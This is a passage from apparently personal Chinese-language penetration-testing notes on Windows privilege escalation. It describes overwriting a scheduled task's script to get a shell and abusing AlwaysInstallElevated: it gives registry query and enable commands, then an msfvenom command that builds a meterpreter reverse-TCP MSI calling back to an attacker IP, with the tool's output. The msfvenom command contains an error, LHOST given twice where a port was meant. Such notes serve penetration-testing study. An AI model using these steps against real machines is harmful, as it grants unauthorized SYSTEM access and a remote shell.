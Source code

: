 ```
$task= Get-ScheduledTask -TaskName xxxx

ForEach ($action in $task.Actions) { Select $action.Execute}
```

检查路径是否可控

```
accesschk64.exe -dqv "/path/to/dir"
```

如果可控，我们可以覆盖该计划任务执行的脚本来获取shell

## MSI安装策略提权(AlwaysInstallElevated提权)

由于用户在配置msi安装策略时，配置了“永远以高权限安装”(默认情况下禁用)，导致攻击者可以安装一个恶意msi文件来获取SYSTEM权限

### 确定是否存在漏洞

当该项启用后，会在注册表的相应位置生成键值1，攻击者可以通过下列命令来查看是否开启此选项

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![5](E:\笔记软件\笔记\渗透测试\内网体系建设\windows提权\5.png)

如图为未开放的情况

如果当前用户被赋予了权限(一般不可能),可以尝试开启该选项

```
reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
```

### 创建恶意MSI文件并安装

利用msf来生成恶意msi文件

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.111.128 LHOST=4444 -f msi -o  reverse_tcp.mis
```

```bash
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.111.128 LHOST=4444 -f msi -o  reverse_tcp.mis
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: reverse_tcp.mis
```

